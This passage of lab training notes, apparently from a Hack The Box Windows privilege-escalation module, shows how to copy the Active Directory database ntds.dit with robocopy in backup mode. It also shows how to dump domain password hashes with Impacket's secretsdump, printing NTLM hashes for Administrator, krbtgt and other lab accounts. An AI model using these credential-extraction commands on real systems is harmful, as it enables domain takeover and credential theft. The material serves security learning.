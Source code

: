             OlderCredentials:
            ServiceCredentials:
            Salt: WIN-NB4NGP3TKNKAdministrator
            DefaultIterationCount: 4096
            Flags: 0
            WDigest:
        Key Credentials:
        Credential Roaming
        Created:
        Modified:
        Credentials:
        ```
        - Extracting Hashes Using SecretsDump
        ```bash
        secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

        Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

        [*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        [*] Searching for pekList, be patient
        [*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
        [*] Reading and decrypting hashes from ntds.dit 
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
        htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
        svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
        bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
        hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
        printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

        <SNIP>
        ```
- **Robocopy**
    - The built-in utility robocopy can be used to copy files in backup mode as well. 
    - Robocopy is a command-line directory replication tool. 
    - It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more.
    - Robocopy differs from the copy command in that instead of just copying all files, it can check the destination directory and remove files no longer in the source directory.
    - It can also compare files before copying to save time by not copying files that have not been changed since the last copy/backup job ran.
    ```cmd
    C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit

    -------------------------------------------------------------------------------
    ROBOCOPY     ::     Robust File Copy for Windows
    -------------------------------------------------------------------------------

    Started : Thursday, May 6, 2021 1:11:47 PM
    Source : E:\Windows\NTDS\
        Dest : C:\Tools\ntds\
